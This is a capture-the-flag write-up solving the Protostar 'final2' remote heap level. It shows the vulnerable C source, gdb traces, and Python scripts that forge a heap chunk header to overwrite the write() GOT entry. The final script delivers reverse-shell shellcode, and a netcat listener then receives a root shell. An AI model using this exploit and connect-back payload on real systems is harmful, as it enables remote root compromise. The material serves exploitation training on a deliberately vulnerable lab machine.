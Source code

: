 #### Protostar Final2 

##### About
Remote heap level :)  
  
Core files will be in /tmp.  
  
This level is at /opt/protostar/bin/final2

##### Source code
```c
#include "../common/common.c"
#include "../common/malloc.c"

#define NAME "final2"
#define UID 0
#define GID 0
#define PORT 2993

#define REQSZ 128

void check_path(char *buf)
{
  char *start;
  char *p;
  int l;

  /*
  * Work out old software bug
  */

  p = rindex(buf, '/');
  l = strlen(p);
  if(p) {
      start = strstr(buf, "ROOT");
      if(start) {
          while(*start != '/') start--;
          memmove(start, p, l);
          printf("moving from %p to %p (exploit: %s / %d)\n", p, start, start < buf ?
          "yes" : "no", start - buf);
      }
  }
}

int get_requests(int fd)
{
  char *buf;
  char *destroylist[256];
  int dll;
  int i;

  dll = 0;
  while(1) {
      if(dll >= 255) break;

      buf = calloc(REQSZ, 1);
      if(read(fd, buf, REQSZ) != REQSZ) break;

      if(strncmp(buf, "FSRD", 4) != 0) break;

      check_path(buf + 4);     

      dll++;
  }

  for(i = 0; i < dll; i++) {
                write(fd, "Process OK\n", strlen("Process OK\n"));
      free(destroylist[i]);
  }
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  get_requests(fd);

}
```

I do find JMP ESP in final2 with using msfelfscan, but final2 is heap vulnerable. ╮(╯_╰)╭

##### Solution
There are something different between the provided source code and the binary.

```
root@protostar:/opt/protostar/bin# gdb final2
......
(gdb) disas get_requests
......
0x0804bd60 <+25>:   movl   $0x1,0x4(%esp)
0x0804bd68 <+33>:   movl   $0x80,(%esp)
0x0804bd6f <+40>:   call   0x804b4ee <calloc>        ; <-- calloc(REQSZ, 1);
0x0804bd74 <+45>:   mov    %eax,-0x14(%ebp)
0x0804bd77 <+48>:   mov    -0x10(%ebp),%eax
0x0804bd7a <+51>:   mov    -0x14(%ebp),%edx
0x0804bd7d <+54>:   lea    %edx,-0x414(%ebp,%eax,4)  ; <-- destroylist[dll] = buf;
......
```

There is an assignment statement of destroylist[i] which is missing in the provided source code. And the printf() in the check_path() is not called in the binary.  
  
Besides these differences, we should notice that our request is read by 128 bytes each time, and a chunk is allocated for this 128 bytes each reading.

In this challenge, the vulnerability is not a BOF, it happens in check_path(). It assumes that in our request there is an '/' character before string "ROOT", and then performs a memmove().  
  
What about there no '/' before string "ROOT"? The operation **"while(*start != '/') start--"** will make pointer "start" point to the previous chunk. It means that we can counterfeit a chunk header by exploit this operetion and memmove(). Then perform a free() attack like what we do in heap3.

```python
import socket

s = socket.socket()
s.connect(("192.168.56.101",2993))

chunk_A = "FSRD" + "A"*123 + "/"

s.sendall(chunk_A)

chunk_B_header = "\xfc\xff\xff\xff" + "\xfe\xff\xff\xff" + "BBBB" + "CCCC"

chunk_B = "FSRD" + "ROOT" + "A"*(128-9-len(chunk_B_header)) + "/" + chunk_B_header

s.sendall(chunk_B)

s.close()
```

Use the script above to find out the details to exploit this program. 

```
root@protostar:/opt/protostar/bin# ps -ef | grep final2
root      1354     1  0 05:13 ?        0:00 /opt/protostar/bin/final2
root      1697  1468  0 08:21 tty1     0:00 grep final2

root@protostar:/opt/protostar/bin# gdb final2 -p 1354
(gdb) set follow-fork-mode child
(gdb) set detach-on-fork off
(gdb) break *get_requests+155
Breakpoint 1 at 0x804bde2: file final2/final2.c, line 53.
(gdb) break *free+301
Breakpoint 2 at 0x804aaef: file final2/../common/malloc.c, line 3648.
(gdb) c
Continuing.
[New process 1752]
[Switching to process 1752]

Breakpoint 1, get_requests (fd=4) at final2/final2.c:53
(gdb) x/4x $ebp-0x414
0xbffff844:     0x0804e008      0x0804e090      0x0804e118      0xb7ea1a54
(gdb) x/8x 0x0804e008-8
0x0804e000:     0x00000000      0x00000089      0x44525346      0x41414141
0x0804e010:     0x41414141      0x41414141      0x41414141      0x41414141
(gdb) x/8x 0x0804e090-8
0x0804e088:     0xfffffffe      0xfffffffc      0x42424242      0x43434343  ; <-- counterfeit header
0x0804e098:     0x41414141      0x41414141      0x41414141      0x41414141
(gdb) c
Continuing.

Breakpoint 2, 0x0804aaef in free (mem=0x0804e008)
(gdb) x $edx
0x43434343      cannot access memory at address 0x43434343
(gdb) x $eax
0x42424242      cannot access memory at address 0x42424242
```

Seems it's working, then just think about where to write our shellcode address, note that write() is called after free().

```
root@protostar:/opt/protostar/bin# objdump -R final2 | grep write
0804d41c R_386_JUMP_SLOT   write
```

Just make a little caculation and complete the payload with the old trick used in heap3.

```python
import socket

#http://www.shell-storm.org/shellcode/files/shellcode-883.php
shellcode = "\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89" \
"\xe1\xcd\x80\x92\xb0\x66\x68\xc0\xa8\x38\x66\x66\x68\x05\x39\x43" \
"\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59" \
"\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68" \
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

s = socket.socket()
s.connect(("192.168.56.101",2993))

chunk_A = "FSRD" + "\x90"*4 + "\x68\x30\xe0\x04\x08\xc3"          # push 0x0804e030; ret
chunk_A = chunk_A + "\x90"*(128-19-len(shellcode)) + shellcode    # 0x0804e030 hits nop
chunk_A = chunk_A + "\x90"*4 + "/"                                # last 4 nops ensure shellcode 
                                                                  # will not be modified by free()

s.sendall(chunk_A)

chunk_B_header = "\xfe\xff\xff\xff" + "\xfc\xff\xff\xff" + "\x10\xd4\x04\x08" + "\x10\xe0\x04\x08"

chunk_B = "FSRD" + "ROOT" + "A"*(128-9-len(chunk_B_header)) + "/" + chunk_B_header

s.sendall(chunk_B)

s.close()
```

And I listen to port 1337 in my Kali.

```
root@Kali: ~# nc -l -p 1337
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

##### Reference
<https://thesprawl.org/research/exploit-exercises-protostar-final/#final2>  
<http://www.kroosec.com/2013/01/protostar-final2.html>
